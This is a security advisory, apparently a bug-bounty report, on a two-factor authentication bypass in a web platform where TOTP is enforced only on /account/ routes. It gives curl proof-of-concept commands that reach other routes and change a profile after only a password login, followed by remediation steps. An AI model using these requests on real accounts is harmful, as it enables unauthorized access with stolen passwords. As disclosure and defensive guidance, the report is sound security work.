





# Description

Two-factor authentication bypass via incomplete enforcement (CWE-288). The TOTP challenge is enforced per-view on a handful of `/account/` routes, not globally. After a valid password submission at `/account/login/`, the session is created in a "2FA-pending" state — yet the vast majority of authenticated routes (`/account/settings/`, `/api/users/`, `/api/keys/`, `/shop/*`, `/banking/*`, `/community/*`, `/forum/*`, `/advertisement/*`, `/chatbot/`, …) are fully accessible without ever completing the TOTP step. Notably, `/banking/` routes have **no** 2FA enforcement at all.

An attacker holding only the victim's password (phishing, credential stuffing, reuse) navigates directly to non-gated routes and reads/writes data on the victim's behalf — the second factor protects almost nothing.

# Exploitation

| Step | Action | Result |
|------|--------|--------|
| 1 | POST valid username+password only (no TOTP) to `/account/login/`. | `302 /account/process/`, 2FA-pending session. |
| 2 | `GET /account/`. | `302` — correctly blocked. |
| 3 | `GET` any non-`/account/`, non-`/banking/` route. | `200` — full access, no TOTP. |

# PoC

**1. Half-authenticate (no TOTP), confirm `/account/` is gated:**

```bash
curl -sk -b c.txt -I http://<TARGET>/account/
# 302 Location: /account/process   ← 2FA enforced here
```



**2. Non-gated routes all return 200 without TOTP:**

```bash
for ep in /api/users/ /account/settings/ /shop/orders/ /community/messages/ /forum/; do
  printf "%s : " "$ep"; curl -sk -b c.txt -o /dev/null -w "%{http_code}\n" "http://<TARGET>${ep}"
done
# /api/users/:200  /account/settings/:200  /shop/orders/:200  /community/messages/:200  /forum/:200
```





**3. State-changing write without TOTP** — modify the biography, then verify:

```bash
curl -sk -b c.txt -X POST http://<TARGET>/account/settings/ \
  --data-urlencode "csrfmiddlewaretoken=${csrf}" \
  --data-urlencode "form_type=change_biography" \
  --data-urlencode "biography=2FA_BYPASS_PROOF"
# → profile now shows: <p class="biography-text">2FA_BYPASS_PROOF</p>
```





# Risk

| Dimension | Impact |
|-----------|--------|
| Confidentiality | Read of all usernames, private settings, messages, notifications, marketplace data. |
| Integrity | Write to biography, profile picture, forum posts, advertisements, friend requests. |
| Availability | None directly. |

Overall severity: **High** — the platform's primary account-security mitigation is bypassable for the majority of functionality with only a password.

# Remediation

1. **Enforce 2FA globally in middleware** ("deny by default"), not per-prefix; only exempt `/account/verification/`, logout, and static.
2. **Set `2fa_verified` only after a successful TOTP submission**; clear on logout.
3. **Audit every authenticated entry point** is covered by the middleware.

# Author
Hackrapovic
